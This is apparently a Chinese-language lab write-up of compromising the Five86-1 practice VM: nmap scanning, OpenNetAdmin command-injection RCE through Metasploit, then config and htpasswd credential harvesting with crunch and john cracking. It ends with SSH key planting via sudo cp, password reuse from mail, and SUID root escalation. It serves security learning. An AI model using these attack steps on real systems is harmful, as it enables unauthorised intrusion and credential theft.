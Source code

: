 好久没打了

[参考wp](https://www.cnblogs.com/jason-huawen/p/17146071.html)

**环境配置**
ova导入 打开后改NAT

靶机ip: 192.168.136.162


nmap扫
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-05 06:07 CST
Nmap scan report for 192.168.136.162
Host is up (0.00038s latency).
Not shown: 97 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:F8:EE:8D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.46 seconds

```
访问这个网站什么都没有 但是根据robots.txt 得到 /ona路由

访问发现右上角有个登陆 随便尝试 admin/admin 弱口令登陆...

OpenNetAdmin 搜索发现有对应漏洞 看看能不能利用
![img](Five86-1/images/image.png)

把这个sh拷到本机 把代码复制一遍到exp.sh (直接用会出bug)
然后
![img](Five86-1/images/image-1.png)

RCE
但这shell时好时坏 ... 反弹shell也难搞

信息收集:
```
 ls /opt/ona/www/local/config/
database_settings.inc.php
motd.txt.example
$ cat /opt/ona/www/local/config/da*
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'ona_password',
        'db_database' => 'ona_onadb',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

$ 

```

找网上说的尝试su /ssh p用没得...
无果 返回去看发现msf能直接打...
也就是用这个 `penNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)  `

msf能直接给Shell md ...
照着options配好
![img](Five86-1/images/image-2.png)

msf已经帮我们把反弹shell做好了
python起一个交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

然后就是脑洞大开的环节了
![img](Five86-1/images/image-3.png)

进入~ 后 `cat .htpasswd`

```
www-data@five86-1:~$ ls
ls
html
www-data@five86-1:~$ cat .ht*   
cat .ht*
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1

# To make things slightly less painful (a standard dictionary will likely fail),
# use the following character set for this 10 character password: aefhrt 
www-data@five86-1:~$ 

```

逆天,,,
告诉我们10个字符和字符的范围

`crunch 10 10 aefhrt -o dict   `
`$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1` 这一段就是UNIX的md5

得到dict后用john爆破 `john --wordlist=dict hash.txt`
![img](Five86-1/images/image-4.png)

`douglas` : `fatherrrrr`

就可以su切换douglas了
sudo -l
```
douglas@five86-1:/var/www$ sudo -l
sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```

然而cp直接是无法提权的 然后又是脑洞大开
```
在里面发现了id_rsa和id_rsa.pub两个文件，那么把它cp到jen目录下就可以使用ssh公匙免密登录jen了
```

emmm 好吧
![img](Five86-1/images/image-5.png)

注意名字`authorized_keys`要规范!!!

免密登录后看到有mail
/var/mail查看
```
jen@five86-1:/var/mail$ cat jen
cat jen
From roy@five86-1 Wed Jan 01 03:17:00 2020
Return-path: <roy@five86-1>
Envelope-to: jen@five86-1
Delivery-date: Wed, 01 Jan 2020 03:17:00 -0500
Received: from roy by five86-1 with local (Exim 4.92)
        (envelope-from <roy@five86-1>)
        id 1imZBc-0001FU-El
        for jen@five86-1; Wed, 01 Jan 2020 03:17:00 -0500
To: jen@five86-1
Subject: Monday Moss
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1imZBc-0001FU-El@five86-1>
From: Roy Trenneman <roy@five86-1>
Date: Wed, 01 Jan 2020 03:17:00 -0500

Hi Jen,

As you know, I'll be on the "customer service" course on Monday due to that incident on Level 4 with the accounts people.

But anyway, I had to change Moss's password earlier today, so when Moss is back on Monday morning, can you let him know that his password is now Fire!Fire!

Moss will understand (ha ha ha ha).

Tanks,
Roy


```

`Moss` `Fire!Fire!`

切换为moss
moss无法sudo -l
进入主目录查看
```
moss@five86-1:~$ ls -alh
ls -alh
total 12K
drwx------ 3 moss moss 4.0K Jan  1  2020 .
drwxr-xr-x 7 root root 4.0K Jan  1  2020 ..
lrwxrwxrwx 1 moss moss    9 Jan  1  2020 .bash_history -> /dev/null
drwx------ 2 moss moss 4.0K Jan  1  2020 .games

```

学到新姿势 `ls -alh` 能查看隐藏文件!!!
进入 .games查看
```
moss@five86-1:~/.games$ ls -alh
ls -alh
total 28K
drwx------ 2 moss moss 4.0K Jan  1  2020 .
drwx------ 3 moss moss 4.0K May  4 11:40 ..
lrwxrwxrwx 1 moss moss   21 Jan  1  2020 battlestar -> /usr/games/battlestar
lrwxrwxrwx 1 moss moss   14 Jan  1  2020 bcd -> /usr/games/bcd
lrwxrwxrwx 1 moss moss   21 Jan  1  2020 bombardier -> /usr/games/bombardier
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 empire -> /usr/games/empire
lrwxrwxrwx 1 moss moss   20 Jan  1  2020 freesweep -> /usr/games/freesweep
lrwxrwxrwx 1 moss moss   15 Jan  1  2020 hunt -> /usr/games/hunt
lrwxrwxrwx 1 moss moss   20 Jan  1  2020 ninvaders -> /usr/games/ninvaders
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 nsnake -> /usr/games/nsnake
lrwxrwxrwx 1 moss moss   25 Jan  1  2020 pacman4console -> /usr/games/pacman4console
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 petris -> /usr/games/petris
lrwxrwxrwx 1 moss moss   16 Jan  1  2020 snake -> /usr/games/snake
lrwxrwxrwx 1 moss moss   17 Jan  1  2020 sudoku -> /usr/games/sudoku
-rwsr-xr-x 1 root root  17K Jan  1  2020 upyourgame
lrwxrwxrwx 1 moss moss   16 Jan  1  2020 worms -> /usr/games/worms

```

发现 `upyourgame`可执行
莫名其妙就得到root权限了
![img](Five86-1/images/image-6.png)

其实是这个ELF权限位设置的原因
![img](Five86-1/images/image-7.png)

所以执行可以得到root权限

```
# id
id
uid=0(root) gid=1001(moss) groups=1001(moss)
# ls /root
ls /root
flag.txt
# cat /root/*
cat /root/*
8f3b38dd95eccf600593da4522251746
# 
```


---
---

总结:
又学到了新姿势~ 好欸!